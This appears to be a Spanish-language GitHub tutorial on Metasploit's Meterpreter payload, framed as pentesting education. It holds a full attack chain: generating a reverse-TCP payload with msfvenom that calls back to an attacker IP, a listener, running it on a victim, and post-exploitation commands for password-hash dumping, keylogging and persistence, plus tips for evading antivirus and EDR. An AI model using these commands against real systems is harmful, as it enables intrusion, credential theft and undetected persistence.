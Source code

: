 # 🛠️ Meterpreter: Payload Avanzado de Metasploit

## 📌 ¿Qué es Meterpreter?

**Meterpreter** (Meta-Interpreter) es un payload dinámico y avanzado incluido en el framework de Metasploit. A diferencia de una shell tradicional, Meterpreter se ejecuta en memoria, lo que lo hace más sigiloso y flexible. Proporciona una interfaz interactiva con múltiples funcionalidades para post-explotación, escalada de privilegios, persistencia y movimiento lateral.

---

## ⚙️ Características Principales

- **Ejecución en memoria**: No escribe archivos en disco (en muchos casos), evitando detección por antivirus.
- **Modularidad**: Se pueden cargar extensiones como `stdapi`, `priv`, `incognito`, etc.
- **Transporte cifrado**: Comunicación segura entre atacante y víctima.
- **Multiplataforma**: Compatible con Linux, Windows, macOS y Android.
- **Control remoto completo**: Permite ejecutar comandos, manipular archivos, capturar pantalla, grabar audio, etc.

---

## 🚀 Tipos de Payload Meterpreter

| Payload                                 | Plataforma | Descripción                                  |
|-----------------------------------------|------------|----------------------------------------------|
| `windows/meterpreter/reverse_tcp`       | Windows    | Conexión inversa por TCP                     |
| `windows/meterpreter/bind_tcp`          | Windows    | Conexión directa (bind) por TCP              |
| `linux/x86/meterpreter/reverse_tcp`     | Linux      | Conexión inversa para sistemas Linux         |
| `android/meterpreter/reverse_tcp`       | Android    | Payload para dispositivos Android            |
| `osx/x86/meterpreter/reverse_tcp`       | macOS      | Payload para sistemas macOS                  |

---

## 🧪 Ejemplo de Uso

### 1. Generar el payload con `msfvenom`

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f elf > meterpreter.elf
```

### 2. Configurar el listener en Metasploit

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444
run
```

### 3. Ejecutar el payload en la máquina víctima

```bash
chmod +x meterpreter.elf
./meterpreter.elf
```

## 🧭 Comandos Útiles en Meterpreter

### 🔍 Información del sistema

```bash
sysinfo         # Información del sistema operativo
getuid          # Usuario actual
ipconfig        # Interfaces de red
```

### 📁 Gestión de archivos

```bash
ls              # Listar archivos
cd /path        # Cambiar directorio
upload file     # Subir archivo
download file   # Descargar archivo
```

### 🧠 Escalada de privilegios

```bash
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
```

### 🧬 Persistencia

```bash
run persistence -U -i 5 -p 4444 -r 192.168.56.1
```

### 🕵️ Recolección de credenciales

```bash
hashdump        # Extraer hashes de contraseñas
keyscan_start   # Activar keylogger
```

### 🖼️ Captura de pantalla

```bash
screenshot
```

### 🧱 Control de sesiones

```bash
background      # Poner sesión en segundo plano
sessions -l     # Listar sesiones activas
sessions -i <id># Interactuar con sesión específica
```

### 🧩 Extensiones de Meterpreter

| Extensión  | Funcionalidad                                         |
|------------|--------------------------------------------------------|
| stdapi     | Funciones básicas del sistema (archivos, procesos)     |
| priv       | Escalada de privilegios                                |
| incognito  | Manipulación de tokens en Windows                      |
| sniffer    | Captura de tráfico de red                              |
| kiwi       | Dump de credenciales con Mimikatz (Windows)            |


## 🔐 Seguridad y Detección

Aunque Meterpreter es poderoso, puede ser detectado por soluciones modernas de EDR/AV. Para evadir detección:

- Usa encoders en msfvenom.
- Ejecuta en memoria (sin escribir en disco).
- Cambia el transporte (reverse_https, reverse_tcp_dns).
- Usa técnicas de ofuscación y empaquetado.

## 📚 Recursos Adicionales

- [Documentación oficial de Metasploit](https://docs.metasploit.com/)
- [Payload Cheat Sheet](https://github.com/hakluke/metasploit-payload-cheat-sheet)
- [Metasploit Unleashed](//www.offensive-security.com/metasploit-unleashed/)

## 🧠 Conclusión

Meterpreter es una herramienta esencial en el arsenal de cualquier pentester. Su versatilidad y potencia lo convierten en el payload ideal para tareas de post-explotación, manteniendo control total sobre el sistema comprometido. Dominar Meterpreter te permite ir más allá del acceso inicial y convertir una intrusión en una auditoría completa.
